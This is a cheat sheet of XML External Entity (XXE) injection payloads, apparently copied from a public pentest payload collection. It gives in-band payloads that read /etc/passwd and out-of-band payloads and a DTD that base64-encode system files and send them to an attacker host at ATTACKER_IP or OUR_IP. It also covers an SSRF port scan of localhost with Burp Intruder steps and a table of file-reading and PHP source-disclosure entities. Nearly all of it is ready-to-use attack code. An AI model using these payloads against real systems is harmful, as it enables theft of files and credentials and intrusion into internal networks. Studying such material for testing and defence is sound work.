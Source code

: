 # XML External Entity (XXE) Injection

## Resource: https://github.com/swisskyrepo/PayloadsAllTheThings

## XXE Injection

### In-Band XXE Injection Example payload:

      <!DOCTYPE foo [

      <!ELEMENT foo ANY >

      <!ENTITY xxe SYSTEM "file:///etc/passwd" >]>

      <contact><name>&xxe;</name><email>test@mail.com</email><message>whatever</message></contact>

### Out-of-Band XXE Injection Example Payload:

      <!DOCTYPE foo [
      <!ELEMENT foo ANY >
      <!ENTITY xxe SYSTEM "http://ATTACKER_IP:1337/" >]>
      <upload><file>&xxe;</file></upload>

### Create a payload named sample.dtd with the code below:

      <!ENTITY % cmd SYSTEM "php://filter/convert.base64-encode/resource=/etc/passwd">
      <!ENTITY % oobxxe "<!ENTITY exfil SYSTEM 'http://ATTACKER_IP:1337/?data=%cmd;'>">
      %oobxxe;

### Final OOB Payload:

      <?xml version="1.0" encoding="UTF-8"?>
      <!DOCTYPE upload SYSTEM "http://ATTACKER_IP:1337/sample.dtd">
      <upload>
    <file>&exfil;</file>
      </upload>

### Server-Side Request Forgery with XXE Injection Internal Port Scanning payload:

      <!DOCTYPE foo [
        <!ELEMENT foo ANY >
        <!ENTITY xxe SYSTEM "http://localhost:§10§/" >
      ]>
      <contact>
        <name>&xxe;</name>
        <email>test@test.com</email>
        <message>test</message>
      </contact>

 - 1) Send this payload to Burp Intruder

 - 2) Select the port number in the localhost URI
  
 - 3) Go to payloads -> Select payload type: Numbers
  
 - 4) Payload Settings -> From 1 to 65535
  
 - 5) Start Attack

| **Code**   | **Description**   |
| --------------|-------------------|
| `<!ENTITY xxe SYSTEM "http://localhost/email.dtd">` | Define External Entity to a URL |
| `<!ENTITY xxe SYSTEM "file:///etc/passwd">` | Define External Entity to a file path |
| `<!ENTITY company SYSTEM "php://filter/convert.base64-encode/resource=index.php">` | Read PHP source code with base64 encode filter |
| `<!ENTITY % error "<!ENTITY content SYSTEM '%nonExistingEntity;/%file;'>">` | Reading a file through a PHP error |
| `<!ENTITY % oob "<!ENTITY content SYSTEM 'http://OUR_IP:8000/?content=%file;'>">` | Reading a file OOB exfiltration |

